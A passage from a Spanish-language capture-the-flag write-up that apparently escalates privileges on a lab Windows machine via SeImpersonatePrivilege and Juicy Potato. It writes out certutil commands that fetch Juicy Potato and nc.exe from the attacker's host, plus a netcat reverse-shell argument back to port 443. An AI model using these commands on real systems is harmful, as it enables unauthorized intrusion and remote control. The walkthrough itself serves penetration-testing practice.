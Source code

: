 ```bash
                                 [03]: dead:beef::45f:18cb:2ab3:a6b2
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

C:\Users>
```

Observamos dos vías potenciales para escalar privilegios en el sistema, el usuario presenta habilitado *SeImpersonatePrivilege* por lo que con la herramienta [Juicy Potato](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2) podemos escalar privilegios. 

Nos descargamos el archivo, lo subimos al sistema junto con el archivo **nc.exe** compartiendo un servidor con python y descargandolo en *C:\\Windows\\Temp\\Privesc*.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [28/Aug/2021 17:42:06] "GET /Juicy.Potato.x86.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 17:42:09] "GET /Juicy.Potato.x86.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 18:02:44] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 18:02:47] "GET /nc.exe HTTP/1.1" 200 -
```

```bash
cd C:\Windows\Temp                                                                                                                         
mkdir Privesc                                                                     
mkdir Privesc                                                                                                         
cd Privesc                              
cd Privesc                                                                                 
certutil.exe -f -urlcache -split http://10.10.14.15/Juicy.Potato.x86.exe C:\Windows\Temp\Privesc\JP.exe
****  Online  ****
  000000  ...
  040600
CertUtil: -URLCache command completed successfully.

certutil.exe -f -urlcache -split http://10.10.14.15/nc.exe C:\Windows\Temp\Privesc\nc.exe
certutil.exe -f -urlcache -split http://10.10.14.15/nc.exe C:\Windows\Temp\Privesc\nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

Ejecutamos el archivo **JP.exe**  comprobamos que información nos solicita. De acuerdo con el página de [Github](https://github.com/ivanitlearning/Juicy-Potato-x86), nos muestra un ejemplo de uso; por lo que tomamos dichos valores y agregamos el parámetro `-a` para ejecutar nuestro comando; en este caso una reverse shell a nuestro equipo de acatante `-a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.15 443"`, por lo que antes de ejcutar el programa nos ponemos en escucha por el puerto 443
